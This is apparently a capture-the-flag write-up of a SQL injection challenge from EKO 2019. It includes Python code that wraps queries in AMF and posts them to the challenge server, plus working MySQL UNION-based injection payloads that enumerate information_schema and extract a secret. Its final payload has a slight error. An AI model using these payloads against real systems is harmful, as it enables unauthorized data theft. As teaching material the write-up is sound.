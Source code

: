 ```yaml
---
layout: post
title: Weirdo (SQLi writeup - EKO 2019)
tags: challenge eko sql hacking
---
```


Quick writeup of a SQL injection challenge.

<!--more-->
We start with a
[pcap](/assets/eko2019-writeups/weiro-dir/wtf.pcap)
of a HTTP communication between a client and a server.

It is only one request/response.

With ``wireshark`` we can see that the parties are talking using
[AMF](https://en.wikipedia.org/wiki/Action_Message_Format)

Here is the decoded ``POST``:

```
Hypertext Transfer Protocol
    POST / HTTP/1.1
    Content-type: application/x-amf
    Content-Length: 40
Action Message Format
    AMF version: 0
    Header count: 0
    Message count: 1
    Messages
        Target URI: EKO.CTF
        Response URI: /1
        Length: Unknown
        ECMA array (1 items)
            AMF0 type: ECMA array (0x08)
            Array length: 0
            Property 'q' String 'arg'
                Name: q
                    String length: 1
                    String: q
                String 'arg'
                    AMF0 type: String (0x02)
                    String length: 3
                    String: arg
            End Of Object Marker
```

### Brief AMF Disassemble

In particular, this is the hexdump of the AMF message:

```
0000   00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
0010   02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
0020   00 03 61 72 67 00 00 09
```

From the end to the begin, the ``00 00 09`` is the
``End of Object Marker``, ``02 00 03 61 72 67`` is the
``arg`` string, in ASCII prefixed with 2 bytes that
determines its length in big endian and all of that is
prefixed with on byte, ``02`` that says what follows is
a string.

I'm going to stop here as my understanding of AMF is quite
low and it deserves a separate post.

Playing with the value of the query, this ``arg``, is all
what we need to get some fun.

Replacing ``arg`` with ``'xx`` we get a database error showing
that the server is vulnerable to a SQL injection.

So you know what I'm talking about.


### Custom Queries

Before playing, we need a simple way to submit custom queries.

We treat the AMF message as an opaque string, the only thing
that we need is to inject an arbitrary string ``q`` prefixed
with its size.

```python
>>> from cryptonita import B

>>> hdr = '''
... 00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
... 02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
... '''

>>> hdr = B(hdr, encoding=16)
>>> eom =  B('00 00 09', encoding=16)

>>> def payload(q):
...     q  = B(q)
...     sz = B(len(q))
...
...     sz = sz.pack('>H') # uint16, big endian
...     return hdr + sz + q + eom
```

We wrap this into a HTTP POST.

```python
import requests

def post(q):
    url = 'https://wtf.eko.cap.tf/'
    data = payload(q)

    r = requests.post(url, data=data)
    for chunk in r.content.split(b'network'):
        chunk = B([c for c in chunk if chr(c).isprintable()])
        print(chunk)
```

The response is also a AMF message that we treat it as a binary blob.

For this reason we arbitrary split the response in chunks and we
filter out any non-printable char.

And *voila!* With ``post`` we can submit arbitrary queries and see their
responses.

### Prologue and Epilogue

We know that we are injecting in the middle of a SQL query but
we don't know *where*.

We may be injecting here

```
select ??? from ??? where ???='<here>' ;
```

but we may be injected here:

```
select ??? from ??? where ??? in (select ??? from ??? where ???='<here>' ???);
```

The possibilities are infinite.

If we *assume* the first case, we could try this:

 - a *prologue* of ``'`` to close the left side of the query
 - a *epilogue* of ``; --`` to close the statement and ignore anything
on the right.

```
>>> q = b"'; --"
```

The idea is that we transform the *host* query

```
select ??? from ??? where ???='<here>';
```

into this:

```
select ??? from ??? where ???=''; --';
```

But we were wrong. It failed.

Perhaps we are in the wrong spot, perhaps one of our injected characters
were filtered or our prologue and/or epilogue is wrong.

The ``--`` begins a comment. Each SQL engine has its own. The ``--`` works
in Oracle and under *some* conditions in MySQL.

The ``#`` works only in MySQL without any condition so we could try that:

```python
>>> q = b"'; #"
```

```
select ??? from ??? where ???=''; #';
```

And it worked! And we learnt that the database is a MySQL for free.

[Ref](http://www.sqlinjection.net/comments/)


### Deducing the Host Query Structure

Under the hypothetical host query:

```
select ??? from ??? where ???='<here>';
```

We could learn how many *columns* is using the ``select`` making the
query to order the results by the, let's say, the 10th column.

If it fails we now that it has less than 10 columns.

After some binary search, we learn that it has 5 columns:

```python
>>> q = b"' order by 5 ;#"    # 5 columns
```

```
select c1, c2, c3, c4, c5 from ??? where ???='' order by 5 ; #';
```

We can experiment further with:

```python
>>> q = b"' union select 99, 98, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' union select 99, 98, 97, 96, 95 from information_schema.tables ;#';
```

This also validates that the database engine is a MySQL (``information_schema``
is MySQL specific) and that we can *union* the results.

The last confirms that the host query is just a ``select`` and we are
injecting in the ``where`` clause.


### Information Gathering

With this we can learn what other tables are in the database:

```python
>>> q = b"' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#';
```

And with this one we can learn what columns has the table ``secret``, table that
found with the previous query and it has a interesting name.

```python
>>> q = b"' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#';
```

In both cases the ``and 1=0`` makes the *host* query to produce zero results
and it makes the output much cleaner.


### Profit!

Finally:

```python
>>> q = b"' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#"
>>> post(q)
<...>
EKO{ this is the flag }
<...>
```

```
select ??? from ??? where ???='' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#';
```
